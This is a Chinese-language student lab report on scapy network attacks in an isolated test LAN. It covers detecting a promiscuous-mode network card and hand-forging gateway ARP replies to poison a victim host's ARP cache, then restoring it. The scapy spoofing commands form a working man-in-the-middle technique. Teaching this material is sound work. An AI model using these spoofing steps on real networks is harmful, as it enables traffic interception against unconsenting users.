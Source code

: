 # 实验四——实验报告

### 网络拓扑

- 攻击者主机
  - 08:00:27:da:3e:e4 / eth0
  - 172.16.111.123
- 受害者主机
  - 08:00:27:ad:81:3c / eth0
  - 172.16.111.100
- 网关
  - 08:00:27:bb:14:c1 / enp0s9
  - 172.16.111.1

### 安装scapy

在攻击者主机上提前安装好 [scapy](https://scapy.net/) 

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

![安装python3](img\安装python3.PNG)

![安装python3（1）](img\安装python3（1）.PNG)

### 实验一：检测局域网中的异常终端

```bash
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
```

![检查网卡的混杂模式](img\检查网卡的混杂模式.PNG)

```bash
# 在攻击者主机上开启 scapy
scapy
```

![在攻击者主机上开启scapy](img\在攻击者主机上开启scapy.PNG)

```bash
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.100")
```

![pkt](img\pkt.PNG)

```bash 
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```

![开启混杂模式](img\开启混杂模式.PNG)

![promisc](img\promisc.PNG)

```bash 
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.100")
```

![pkt两次结果差异](img\pkt两次结果差异.PNG)

``` bash
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set enp0s3 promisc off
```

### 实验二：手工单步“毒化”目标主机的 ARP 缓存

以下代码在攻击者主机上的 `scapy` 交互式终端完成

```python
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")
# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```

![构造ARP请求](img\构造ARP请求.PNG)

```bash
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)
```

![发送广播请求](img\发送广播请求.PNG)

```bash
# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```

![查看mac地址](img\查看mac地址.PNG)

```bash
# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.111.100
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.100", hwdst="08:00:27:da:3e:e4")
# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

![伪造网关ARP响应包并发送至受害者主机](img\伪造网关ARP响应包并发送至受害者主机.PNG)

此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```bash
ip neigh
```

![受害者ARP缓存网关的mac变为攻击者](img\受害者ARP缓存网关的mac变为攻击者.PNG)

回到攻击者主机上的 scapy 交互式终端继续执行命令

```python
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:bb:14:c1", pdst="172.16.111.100",
hwdst="08:00:27:ad:81:3c")
sendp(restorepkt1, count=100, inter=0.2)
```

![伪装网关给受害者发送ARP响应](img\伪装网关给受害者发送ARP响应.PNG)

此时在受害者主机上准备“刷新”网关 ARP 记录

```bash
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```

![受害者主机恢复正常的网关ARP记录](img\受害者主机恢复正常的网关ARP记录.PNG)

### 报错及解决方式

1. 在 scapy 的交互式终端输入以下代码回车执行
   pkt = promiscping("172.16.111.100")

   ![报错1](img\报错1.PNG)

   解决办法：用sudo打开scapy
